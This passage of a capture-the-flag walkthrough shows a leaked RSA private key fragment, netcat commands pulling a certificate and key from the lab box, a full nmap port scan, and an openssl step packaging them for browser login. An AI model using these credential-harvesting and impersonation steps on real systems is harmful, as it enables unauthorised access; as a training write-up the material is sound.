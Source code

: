 ```
YbdJyQHmNOGf4IdSXh6mwUzZfL9Vmg8dryT0F7KWmSZAU8j7rSJSoKZ9rjKFejhI
tsqj+CUCgYBZgJnCKjI5B4n+yNZtyFTcAh0nYUL2gsvHemuoCqpJiMYKpqSTeS1Z
TtR/kXpFdEWA2fOqPq8FJkX9zqyKBxiGvBpHhJW8upd/FG4HU/pnmhb4OZU67kUN
Ucx2EpEMlm/iGpRbgkBD5yzJsFkzq0Ug94YLi9Y9sFoYfL2OSsqVFA==
-----END RSA PRIVATE KEY-----
```

<aside>
💡 I’m not giving away any secrets posting the key here; it changes each time the box starts up.
</aside>



### 🥚 Easter Egg: Fred ASCII Art
<details><summary>open to view</summary></details>

Below is the easiest way I know to get clean copies of the key & certificate. Just delete out the extra cruft at the beginning and end of the files :

`echo "cert" | nc 10.10.195.4 9009 > newcert`

`echo "key" | nc 10.10.195.4 9009 > newkey`

### Find More Ports

We’re going to need somewhere to use the certificate. Do a quick scan of the full port range:

```
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nmap -p- 10.10.1.1                                                                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 21:57 EDT
Nmap scan report for 10.10.1.1
Host is up (0.088s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 274.69 seconds
```

## Become Barney

### 🐇 Rabbit Hole: Use Certificate in Firefox

We need to combine the cert and key into a .p12 file for Firefox to import it:

[Firefox: certificate can’t be installed](https://security.stackexchange.com/questions/163199/firefox-certificate-can-t-be-installed)

`openssl pkcs12 -export -in server.crt -inkey server.key -out server.p12`
